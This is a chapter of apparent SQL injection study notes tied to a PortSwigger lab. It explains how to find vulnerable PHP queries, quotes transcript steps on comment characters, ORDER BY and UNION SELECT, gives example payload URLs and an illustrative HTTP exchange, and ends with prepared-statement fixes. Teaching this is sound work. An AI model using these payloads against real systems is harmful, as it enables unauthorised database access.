


## Identifying Vulnerable Queries

To identify potential SQL Injection vulnerabilities, it's important to understand how user input is incorporated into SQL queries. Common indicators include:

- Direct inclusion of user input in SQL queries.
- Lack of proper sanitization or validation of user input.
- Use of dynamic SQL construction methods.

### Example Query Analysis

Consider the following PHP code snippet:

```php
$username = $_GET['username'];
$password = $_GET['password'];

$query = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
$result = mysqli_query($conn, $query);
```

In this example, the `username` and `password` variables are directly included in the SQL query without any sanitization. An attacker could exploit this by injecting malicious SQL code.

### Comment Characters in SQL Queries

Comment characters are used to ignore parts of a SQL query. Different databases support different comment characters:

- **MySQL**: `--`, `#`
- **Microsoft SQL Server**: `--`, `/* ... */`
- **PostgreSQL**: `--`, `/* ... */`

Understanding these comment characters is crucial for identifying and exploiting SQL Injection vulnerabilities.

### Testing Comment Characters

Let's analyze the given transcript chunk to understand how comment characters can be used to identify SQL Injection vulnerabilities.

#### Transcript Analysis

The transcript mentions testing comment characters to identify which ones are accepted by the database:

```plaintext
So my guess is the internal server error is getting displayed because it doesn't like one of the characters that I'm using. So let's start with the comment character, which was dash-dash. There's another way to comment out the rest of the query, which is using the hash sign. So let's test that out. There's one more in case this one doesn't work. So Control U. Hit Enter. And we get a 200 response. So the characters that it doesn't like is the dash-dash characters.
```

This indicates that the `--` comment character is causing an issue, while the `#` character is accepted.

### Order by Column Test

The next step is to determine the number of columns in the query. This is done by ordering the results by different columns and observing the response:

```plaintext
All right, so next, let's order by the second column. This should also exist because we saw it in the browser. All right, 200 response. Let's try 3. Hit enter. And we get an internal server error. So let's write that down. And what that means is we're trying to order by a column that does not exist. And since we did this iteratively, it means that the number of columns that the vulnerable query is using is 3 minus 1, which is equal to 2.
```

This indicates that the query uses 2 columns.

### Union Select Technique

Once the number of columns is determined, the next step is to identify which columns contain text. This is done using the `UNION SELECT` technique:

```plaintext
The second thing to do is figure out which columns contain text because... The items that we want to display, which is the version of the database is of text value, and so we need to find columns that accept that value. And again, based on what we saw in the browser, both columns, so the first column over here and the second column over here, they should both accept text because we can see that they contain text. So instead of doing this iteratively, I'm just going to do a union select.
```

This technique allows the attacker to inject additional rows into the query results.

### Full Example of SQL Injection Exploit

Let's walk through a complete example of how an attacker might exploit a SQL Injection vulnerability to extract the database version.

#### Initial Setup

Assume the following PHP code snippet:

```php
$username = $_GET['username'];
$password = $_GET['password'];

$query = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
$result = mysqli_query($conn, $query);
```

#### Step 1: Identify Comment Characters

First, the attacker tests different comment characters to identify which ones are accepted:

```plaintext
http://example.com/login.php?username=admin' --&password=pass
http://example.com/login.php?username=admin'#&password=pass
```

The second URL returns a 200 response, indicating that the `#` character is accepted.

#### Step 2: Determine Number of Columns

Next, the attacker determines the number of columns in the query by ordering the results:

```plaintext
http://example.com/login.php?username=admin' ORDER BY 1 --&password=pass
http://example.com/login.php?username=admin' ORDER BY 2 --&password=pass
http://example.com/login.php?username=admin' ORDER BY 3 --&password=pass
```

The third URL returns an internal server error, indicating that the query uses 2 columns.

#### Step 3: Inject Payload Using UNION SELECT

Finally, the attacker injects a payload using the `UNION SELECT` technique to extract the database version:

```plaintext
http://example.com/login.php?username=admin' UNION SELECT 1,@@version --&password=pass
```

This query will return the database version in the second column.

### Raw HTTP Request and Response

Here is the complete HTTP request and response for the above example:

```http
GET /login.php?username=admin' UNION SELECT 1,@@version --&password=pass HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Connection: close

HTTP/1.1 200 OK
Date: Mon, 20 Mar 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 1234

<!DOCTYPE html>
<html>
<head>
    <title>Login</title>
</head>
<body>
    <h1>Login</h1>
    <p>Database Version: 5.7.34-log</p>
</body>
</html>
```

### Mermaid Diagrams

#### SQL Injection Attack Chain



#### Network Topology



### Pitfalls and Common Mistakes

- **Improper Sanitization**: Failing to sanitize user input can lead to SQL Injection vulnerabilities.
- **Dynamic SQL Construction**: Using string concatenation to build SQL queries can make them susceptible to injection attacks.
- **Lack of Prepared Statements**: Not using prepared statements or parameterized queries can leave the application vulnerable.

### How to Prevent / Defend Against SQL Injection

#### Detection

- **Static Code Analysis**: Tools like SonarQube can help identify SQL Injection vulnerabilities in code.
- **Dynamic Analysis**: Tools like Burp Suite can simulate SQL Injection attacks to test for vulnerabilities.

#### Prevention

- **Use Prepared Statements**: Prepared statements ensure that user input is treated as data rather than executable code.
- **Input Validation**: Validate and sanitize all user input to prevent malicious SQL code from being injected.
- **Least Privilege Principle**: Ensure that the database user has the minimum necessary privileges to perform its tasks.

#### Secure Coding Fixes

##### Vulnerable Code

```php
$username = $_GET['username'];
$password = $_GET['password'];

$query = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
$result = mysqli_query($conn, $query);
```

##### Secure Code

```php
$username = $_GET['username'];
$password = $_GET['password'];

$stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->bind_param("ss", $username, $password);
$stmt->execute();
$result = $stmt->get_result();
```

#### Configuration Hardening

- **Disable Unnecessary Features**: Disable features like stored procedures or triggers that are not required.
- **Limit User Privileges**: Ensure that database users have the least privileges necessary to perform their tasks.

### Practice Labs

For hands-on practice with SQL Injection, consider the following labs:

- **PortSwigger Web Security Academy**: Offers interactive labs to practice SQL Injection techniques.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing various web security exploits.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application with numerous security vulnerabilities for educational purposes.
- **WebGoat**: A deliberately insecure Java web application designed to teach web application security lessons.

By thoroughly understanding SQL Injection and implementing robust security measures, developers can significantly reduce the risk of such vulnerabilities in their applications.

---

This comprehensive chapter covers the fundamental concepts of SQL Injection, provides detailed examples, and includes practical steps to prevent and defend against such attacks.

---
<!-- nav -->
[[03-Exploiting SQL Injection to Query Database Type and Version|Exploiting SQL Injection to Query Database Type and Version]] | [[Web Security (PortSwigger)/02-SQL Injection/09-Lab 8 SQLi attack querying the database type and version on MySQL Microsoft/00-Overview|Overview]] | [[05-Querying Database Type and Version via SQL Injection|Querying Database Type and Version via SQL Injection]]
